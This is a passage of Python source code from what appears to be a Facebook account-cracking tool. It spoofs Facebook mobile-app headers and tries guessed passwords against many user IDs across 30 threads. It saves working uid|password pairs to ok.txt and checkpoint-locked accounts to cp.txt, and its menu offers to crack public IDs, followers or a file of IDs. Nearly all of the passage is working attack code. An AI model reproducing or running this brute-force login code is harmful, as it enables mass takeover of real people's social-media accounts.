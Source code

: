 																	headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
																	data = requests.get(api, params=params, headers=headers_)
																	if "access_token" in data.text and "EAAA" in data.text:
																		print(" \033[1;32m[Ibrahim>OK] "+uid+" | "+pass8+"\033[0;97m")
																		ok = open("ok.txt", "a")
																		ok.write(uid+"|"+pass8+"\n")
																		ok.close()
																		oks.append(uid+pass8)
																	else:
																		if "www.facebook.com" in data.json()['error_msg']:
																			print(" \033[1;33m[ibrahim-CP] "+uid+" | "+pass8+"\033[0;97m")
																			cp = open("cp.txt", "a")
																			cp.write(uid+"|"+pass8+"\n")
																			cp.close()
																			cps.append(uid+pass8)
												
										
										
		except:
			pass
	p = ThreadPool(30)
	p.map(main, id)
	print("")
	linex()
	print("")
	print("\033[92;1m THE PROCESS HAS BEEN COMPLETED")
	print("\033[93;1m TOTAL \033[92;1mOK\033[93;1m/\033[91;1mCP: "+str(len(oks))+"/"+str(len(cps)))
	print("")
	linex()
	print("")
	raw_input("\033[93;1m PRESS ENTER TO BACK ")
	menu()
	

def crack():
	global token
	os.system("clear")
	try:
		token = open("vau_token.txt","r").read()
	except IOError:
		print("")
		print("\t\033[91;1m  TOKEN NOT FOUND ")
		time.sleep(1)
		fb_token()
	os.system("clear")
	logo()
	print("")
	print("\t\033[93;1m  DIGIT PASS CRACKING")
	print("")
	print("\033[94;1m  [1] CRACK PUBLIC ID")
	print("\033[93;1m  [2] CRACK FOLLOWERS")
	print("\033[92;1m  [3] CRACK FILE")
	print("")
	crack_select()
